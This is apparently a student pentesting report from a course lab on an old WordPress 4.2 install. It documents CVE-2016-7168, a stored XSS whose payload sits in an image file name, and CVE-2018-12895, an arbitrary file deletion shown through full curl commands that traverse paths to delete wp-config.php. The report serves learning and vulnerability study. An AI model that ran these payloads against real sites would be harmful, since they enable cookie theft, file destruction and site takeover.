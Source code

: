 # Project 7 - WordPress Pentesting

Time spent: **6** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

### 1. CVE-2016-7168 Authenticated Stored XSS Via Image File Name
  - [ ] Summary: 
    - Vulnerability types: XSS (stored), Social Engineering
    - Tested in version: 4.2
    - Fixed in version: 4.2.10
  - [ ] GIF Walkthrough: https://github.com/zipesb/codepath_2022/blob/unit7_wordpress/unit7_vuln1.gif
  - [ ] Steps to recreate: Only tested in Linux. Use social engineering to provide image file to admin that contains malicious HTML/script in the image name (such as the example in Assets [1.1](https://github.com/zipesb/codepath_2022/edit/unit7_wordpress/README.md#11-example-malicious-image-file-name-vulnimg-srca-onerroralertdocumentcookiejpg)) and get admin to upload it to the wordpress site. When users view the page containing the uploaded attachment, the HTML/script stored in the image will execute. Possibly restricted to Linux and Mac OS as Windows disallows characters such as "<" in file names.
  - [ ] Affected source code: https://github.com/WordPress/WordPress/commit/c9e60dab176635d4bfaaf431c0ea891e4726d6e0
    - [wpscan page](https://wpscan.com/vulnerability/e84eaf3f-677a-465a-8f96-ea4cf074c980)
### 2. CVE-2018-12895 Authenticated Arbitrary File Deletion
  - [ ] Summary: 
    - Vulnerability types: Improper Authentication (leads to arbitrary file deletion)
    - Tested in version: 4.2
    - Fixed in version: 4.2.21
  - [ ] GIF Walkthrough: https://github.com/zipesb/codepath_2022/blob/unit7_wordpress/unit7_vuln2.gif
  - [ ] Steps to recreate: As a user with Author privileges, upload a image. Then navigate to the page to edit the image ```http://192.168.33.10/wp-admin/post.php?post=17&action=edit```(replace ?post parameter with the numerical id of the image that was uploaded, can be seen in the URL as the ?item parameter when viewing the image from the media tab). On this page, copy the cookies and the wpnonce value from the post form in the HTML into the appropriate places in the curl command in Assets [2.1](https://github.com/zipesb/codepath_2022/edit/unit7_wordpress/README.md#21-example-command-to-set-the-image-thumbnail-as-the-file-to-be-maliciously-deleted-in-this-case-deleting-the-wp-configphp-file-curl--v-http1921683310wp-adminpostphppost17--h-cookie-wordpress_ba4e3f1944a184cb3113f616618065deauthor_user7c16474841987cvabdpdltpheswpx2ecz6as38upnu9b8ws7vtotsbxtj7c1048b25d5ff8cba59ff69d9acd57c14253e92e40f35e94f781554298543b4903-wordpress_test_cookiewpcookiecheck-wp-settings-time-11647310661-wp-settings-time-21647311267-wp-settings-2mfold3do-wordpress_logged_in_ba4e3f1944a184cb3113f616618065deauthor_user7c16474841987cvabdpdltpheswpx2ecz6as38upnu9b8ws7vtotsbxtj7c808ae5c845d32fc6c6f1f989dcae303b9f3e5b622df1f662b5c637f8bb7a2db3--d-actioneditattachment_wpnonced4ea7fca1dthumbwp-configphp). Send this curl command, then find the wpnonce value from the file deletion form and place it into the curl command in Assets [2.2](https://github.com/zipesb/codepath_2022/edit/unit7_wordpress/README.md#22-curl-request-to-delete-image-and-newly-associated-thumbnail-curl--v-http1921683310wp-adminpostphppost17--h-cookie-wordpress_ba4e3f1944a184cb3113f616618065deauthor_user7c16474841987cvabdpdltpheswpx2ecz6as38upnu9b8ws7vtotsbxtj7c1048b25d5ff8cba59ff69d9acd57c14253e92e40f35e94f781554298543b4903-wordpress_test_cookiewpcookiecheck-wp-settings-time-11647310661-wp-settings-time-21647311267-wp-settings-2mfold3do-wordpress_logged_in_ba4e3f1944a184cb3113f616618065deauthor_user7c16474841987cvabdpdltpheswpx2ecz6as38upnu9b8ws7vtotsbxtj7c808ae5c845d32fc6c6f1f989dcae303b9f3e5b622df1f662b5c637f8bb7a2db3--d-actiondelete_wpnonce593d226e9c). When this command is sent it will delete the file that was associated with the image file as its thumbnail because Wordpress fails to make the appropriate checks if this file actually is the image thumbnail and should be deleted. In this example specifically, deleting wp-config.php can allow a user to escalate privileges as Wordpress mistakenly thinks the site has not been configured at all due to the missing config file, and it will prompt the user to create new admin credentials.
  - [ ] Affected source code: https://github.com/WordPress/WordPress/commit/c9dce0606b0d7e6f494d4abe7b193ac046a322cd
    - [wpscan page](https://wpscan.com/vulnerability/42ab2bd9-bbb1-4f25-a632-1811c5130bb4)
### 3. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)


## Assets

### [1.1] (example malicious image file name): ```vuln\<img src=a onerror=alert(document.cookie)>.jpg```
### [2.1] (example command to set the image thumbnail as the file to be maliciously deleted, in this case deleting the wp-config.php file): ```curl -v 'http://192.168.33.10/wp-admin/post.php?post=17' -H 'Cookie: wordpress_ba4e3f1944a184cb3113f616618065de=author_user%7C1647484198%7CVABdPDLtphesWPx2ecz6as38upnu9b8Ws7vtotSbxTj%7C1048b25d5ff8cba59ff69d9acd57c14253e92e40f35e94f781554298543b4903; wordpress_test_cookie=WP+Cookie+check; wp-settings-time-1=1647310661; wp-settings-time-2=1647311267; wp-settings-2=mfold%3Do; wordpress_logged_in_ba4e3f1944a184cb3113f616618065de=author_user%7C1647484198%7CVABdPDLtphesWPx2ecz6as38upnu9b8Ws7vtotSbxTj%7C808ae5c845d32fc6c6f1f989dcae303b9f3e5b622df1f662b5c637f8bb7a2db3' -d 'action=editattachment&_wpnonce=d4ea7fca1d&thumb=../../../../wp-config.php'```
### [2.2] (curl request to delete image and newly associated "thumbnail"): ```curl -v 'http://192.168.33.10/wp-admin/post.php?post=17' -H 'Cookie: wordpress_ba4e3f1944a184cb3113f616618065de=author_user%7C1647484198%7CVABdPDLtphesWPx2ecz6as38upnu9b8Ws7vtotSbxTj%7C1048b25d5ff8cba59ff69d9acd57c14253e92e40f35e94f781554298543b4903; wordpress_test_cookie=WP+Cookie+check; wp-settings-time-1=1647310661; wp-settings-time-2=1647311267; wp-settings-2=mfold%3Do; wordpress_logged_in_ba4e3f1944a184cb3113f616618065de=author_user%7C1647484198%7CVABdPDLtphesWPx2ecz6as38upnu9b8Ws7vtotSbxTj%7C808ae5c845d32fc6c6f1f989dcae303b9f3e5b622df1f662b5c637f8bb7a2db3' -d 'action=delete&_wpnonce=593d226e9c'```

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with ScreenToGif.

## Notes

None, although of course it was necessary to set up a new Wordpress site after deleting the wp-config.php file as a part of demonstrating vulnerability 2 (Authenticated Arbitrary File Deletion).

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
